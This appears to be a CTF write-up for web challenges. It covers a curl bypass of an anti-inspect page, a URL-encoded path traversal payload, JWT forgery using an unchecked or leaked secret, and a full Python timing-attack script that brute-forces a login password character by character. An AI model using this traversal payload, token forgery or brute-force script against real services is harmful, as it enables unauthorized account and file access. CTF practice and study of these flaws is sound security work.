 <h1>Anti inspect </h1>
The webpage has a heavy javascript function which overloads the browser by having infinite loop
causing it to crack. Just using command-line curl to GET the webpage reveals the flag.


<h1> Traversed </h1>

Simple path traversal with url encoded request.
So `{url}/..%2Fflag.txt`

<h1>jwt-1</h1>
Use jwt.io to decode a jwt token. Change admin to true. 
The vuln is that the server is not checking if the secret matches or not.
So value of jwt secret does not matter and simply using the new token works.

<h1>jwt-2</h1>
Similar to jwt-1 but now the secret check is implemented. But in the source provided the jwt-secret is revealed. 
Use that to create verified cookie setting admin to True.

<h1>Kirbytime</h1>
Time based attack vulnerability.
There is a login form and on reading the login.py provided in source we find the password is 7 char long and is checked one char at a time.
After each correct character there is a 1 second dealy before checking the next character. So we could start bruteforcing one char at a time
sending the current correct password each time.But there is one problem, the minimum lenght of password accepted is 7 chars. So we pad the current current password 
with the required number of characters. The exploit.py is below:

```
import requests
import time

url = 'https://34.31.154.223:56366'

length = 7
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
margin = 0.2

def generate(currentPassword, position):
    TPassword = []
    for char in charset:
        testPassword = currentPassword[:position] + char + '#' * (length - position - 1)
        TPassword.append(testPassword)
    return TPassword

def TPassword(TPassword, CDelay):
    max_time = 0
    correctPassword = ''

    for password in TPassword:
        start_time = time.time()
        response = requests.post(url, data={'password': password})
        ETime = time.time() - start_time

        print(f'Testing: {password} | Time taken: {ETime:.2f} seconds')

        if ETime > max_time:
            max_time = ETime
            correctPassword = password

        if ETime > CDelay + margin:
            break

    return correctPassword, max_time

def main():
    currentPassword = '#' * length
    CDelay = 1

    for position in range(length):
        print(f'Finding character at position {position + 1}...')

        TPassword_list = generate(currentPassword, position)

        correctPassword, max_time = TPassword(TPassword_list, CDelay)
        correctChar = correctPassword[position]

        currentPassword = currentPassword[:position] + correctChar + currentPassword[position + 1:]
        print(f'Updated password: {currentPassword}')

        CDelay += 1

    print(f'Final password: {currentPassword}')

if __name__ == "__main__":
    main()

```

<h1>Scrainbrow</h1>
This was not really a Web question and more of a scripting question.Should have been in misc.
So we are given a 100x100 canvas of pixels so 10k total pixels which are jumbled. We have to swap one pixel at a time to form a required gradient.
Then the moveHistory[] is sent to server which checks if its correct and if yes returns the flag.



